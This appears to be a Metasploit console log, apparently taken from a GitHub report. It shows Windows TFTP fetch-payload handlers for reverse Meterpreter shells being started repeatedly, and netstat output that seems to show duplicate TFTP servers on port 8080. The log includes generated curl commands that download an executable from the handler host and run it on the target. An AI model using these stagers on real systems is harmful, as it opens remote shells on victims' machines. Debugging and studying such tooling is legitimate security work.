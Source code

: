 msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
`

`msf
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444

msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 4445
LPORT => 4445
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

[*] Command to run on remote host: curl -so plEYxIdBQna.exe tftp://10.5.135.201:8080/test1 & start /B plEYxIdBQna.exe
[*] Payload Handler Started as Job 4

[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:4445 
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444
  4   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4445

msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set FETCH_URIPATH test4
FETCH_URIPATH => test4
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 8547
LPORT => 8547
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

[*] Command to run on remote host: curl -so DOjmRoCOSMn.exe tftp://10.5.135.201:8080/test4 & start /B DOjmRoCOSMn.exe
[*] Payload Handler Started as Job 5

[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:8547 
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          

`

